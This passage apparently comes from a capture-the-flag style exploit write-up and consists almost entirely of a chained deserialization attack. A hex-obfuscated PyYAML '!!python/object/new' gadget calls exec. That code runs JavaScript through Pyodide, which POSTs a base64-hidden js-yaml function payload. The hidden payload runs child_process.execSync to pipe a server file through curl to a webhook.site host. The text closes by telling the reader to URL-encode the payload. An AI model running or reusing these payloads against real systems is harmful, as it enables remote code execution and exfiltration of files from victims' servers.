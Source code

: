 ```yaml
\x70\x72\x69\x6e\x74\x28\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x70\x79\x6f\x64\x69\x64\x65\x27\x29\x2e\x63\x6f\x64\x65\x2e\x72\x75\x6e\x5f\x6a\x73\x28\x27\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x3d\x22\x64\x65\x62\x75\x67\x3d\x6f\x6e\x22\x3b\x63\x6f\x6e\x73\x74\x20\x64\x61\x74\x61\x3d\x6e\x65\x77\x20\x55\x52\x4c\x53\x65\x61\x72\x63\x68\x50\x61\x72\x61\x6d\x73\x28\x29\x3b\x64\x61\x74\x61\x2e\x61\x70\x70\x65\x6e\x64\x28\x22\x79\x61\x6d\x6c\x22\x2c\x20\x61\x74\x6f\x62\x28\x22\x49\x6e\x52\x76\x55\x33\x52\x79\x61\x57\x35\x6e\x49\x6a\x6f\x67\x49\x54\x78\x30\x59\x57\x63\x36\x65\x57\x46\x74\x62\x43\x35\x76\x63\x6d\x63\x73\x4d\x6a\x41\x77\x4d\x6a\x70\x71\x63\x79\x39\x6d\x64\x57\x35\x6a\x64\x47\x6c\x76\x62\x6a\x34\x67\x49\x6d\x5a\x31\x62\x6d\x4e\x30\x61\x57\x39\x75\x49\x43\x67\x70\x65\x32\x4e\x76\x62\x6e\x4e\x76\x62\x47\x55\x75\x62\x47\x39\x6e\x4b\x48\x42\x79\x62\x32\x4e\x6c\x63\x33\x4d\x75\x62\x57\x46\x70\x62\x6b\x31\x76\x5a\x48\x56\x73\x5a\x53\x35\x79\x5a\x58\x46\x31\x61\x58\x4a\x6c\x4b\x43\x64\x6a\x61\x47\x6c\x73\x5a\x46\x39\x77\x63\x6d\x39\x6a\x5a\x58\x4e\x7a\x4a\x79\x6b\x75\x5a\x58\x68\x6c\x59\x31\x4e\x35\x62\x6d\x4d\x6f\x4a\x32\x4e\x68\x64\x43\x41\x76\x63\x48\x4a\x76\x62\x32\x59\x75\x63\x32\x67\x67\x66\x43\x42\x69\x59\x58\x4e\x6c\x4e\x6a\x51\x67\x4c\x58\x63\x77\x49\x48\x77\x67\x59\x33\x56\x79\x62\x43\x41\x74\x5a\x43\x42\x41\x4c\x53\x42\x6f\x64\x48\x52\x77\x63\x7a\x6f\x76\x4c\x33\x64\x6c\x59\x6d\x68\x76\x62\x32\x73\x75\x63\x32\x6c\x30\x5a\x53\x38\x78\x5a\x47\x56\x6b\x4e\x6a\x41\x78\x5a\x43\x31\x6d\x4d\x32\x59\x78\x4c\x54\x51\x77\x5a\x57\x49\x74\x59\x54\x6b\x35\x59\x79\x31\x68\x59\x6a\x6b\x33\x4e\x44\x59\x7a\x4e\x44\x59\x30\x4d\x6a\x55\x6e\x4b\x53\x35\x30\x62\x31\x4e\x30\x63\x6d\x6c\x75\x5a\x79\x67\x70\x4b\x58\x30\x69\x22\x29\x29\x3b\x66\x65\x74\x63\x68\x28\x22\x2f\x2f\x6c\x6f\x63\x61\x6c\x68\x6f\x73\x74\x3a\x33\x30\x30\x30\x2f\x64\x65\x62\x75\x67\x22\x2c\x7b\x6d\x65\x74\x68\x6f\x64\x3a\x22\x50\x4f\x53\x54\x22\x2c\x62\x6f\x64\x79\x3a\x64\x61\x74\x61\x7d\x29\x27\x29\x29
```

Final client-side YAML deserialization payload:

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x70\x72\x69\x6e\x74\x28\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x70\x79\x6f\x64\x69\x64\x65\x27\x29\x2e\x63\x6f\x64\x65\x2e\x72\x75\x6e\x5f\x6a\x73\x28\x27\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x3d\x22\x64\x65\x62\x75\x67\x3d\x6f\x6e\x22\x3b\x63\x6f\x6e\x73\x74\x20\x64\x61\x74\x61\x3d\x6e\x65\x77\x20\x55\x52\x4c\x53\x65\x61\x72\x63\x68\x50\x61\x72\x61\x6d\x73\x28\x29\x3b\x64\x61\x74\x61\x2e\x61\x70\x70\x65\x6e\x64\x28\x22\x79\x61\x6d\x6c\x22\x2c\x20\x61\x74\x6f\x62\x28\x22\x49\x6e\x52\x76\x55\x33\x52\x79\x61\x57\x35\x6e\x49\x6a\x6f\x67\x49\x54\x78\x30\x59\x57\x63\x36\x65\x57\x46\x74\x62\x43\x35\x76\x63\x6d\x63\x73\x4d\x6a\x41\x77\x4d\x6a\x70\x71\x63\x79\x39\x6d\x64\x57\x35\x6a\x64\x47\x6c\x76\x62\x6a\x34\x67\x49\x6d\x5a\x31\x62\x6d\x4e\x30\x61\x57\x39\x75\x49\x43\x67\x70\x65\x32\x4e\x76\x62\x6e\x4e\x76\x62\x47\x55\x75\x62\x47\x39\x6e\x4b\x48\x42\x79\x62\x32\x4e\x6c\x63\x33\x4d\x75\x62\x57\x46\x70\x62\x6b\x31\x76\x5a\x48\x56\x73\x5a\x53\x35\x79\x5a\x58\x46\x31\x61\x58\x4a\x6c\x4b\x43\x64\x6a\x61\x47\x6c\x73\x5a\x46\x39\x77\x63\x6d\x39\x6a\x5a\x58\x4e\x7a\x4a\x79\x6b\x75\x5a\x58\x68\x6c\x59\x31\x4e\x35\x62\x6d\x4d\x6f\x4a\x32\x4e\x68\x64\x43\x41\x76\x63\x48\x4a\x76\x62\x32\x59\x75\x63\x32\x67\x67\x66\x43\x42\x69\x59\x58\x4e\x6c\x4e\x6a\x51\x67\x4c\x58\x63\x77\x49\x48\x77\x67\x59\x33\x56\x79\x62\x43\x41\x74\x5a\x43\x42\x41\x4c\x53\x42\x6f\x64\x48\x52\x77\x63\x7a\x6f\x76\x4c\x33\x64\x6c\x59\x6d\x68\x76\x62\x32\x73\x75\x63\x32\x6c\x30\x5a\x53\x38\x78\x5a\x47\x56\x6b\x4e\x6a\x41\x78\x5a\x43\x31\x6d\x4d\x32\x59\x78\x4c\x54\x51\x77\x5a\x57\x49\x74\x59\x54\x6b\x35\x59\x79\x31\x68\x59\x6a\x6b\x33\x4e\x44\x59\x7a\x4e\x44\x59\x30\x4d\x6a\x55\x6e\x4b\x53\x35\x30\x62\x31\x4e\x30\x63\x6d\x6c\x75\x5a\x79\x67\x70\x4b\x58\x30\x69\x22\x29\x29\x3b\x66\x65\x74\x63\x68\x28\x22\x2f\x2f\x6c\x6f\x63\x61\x6c\x68\x6f\x73\x74\x3a\x33\x30\x30\x30\x2f\x64\x65\x62\x75\x67\x22\x2c\x7b\x6d\x65\x74\x68\x6f\x64\x3a\x22\x50\x4f\x53\x54\x22\x2c\x62\x6f\x64\x79\x3a\x64\x61\x74\x61\x7d\x29\x27\x29\x29"
```

URL encode the final client-side YAML deserialization payload:
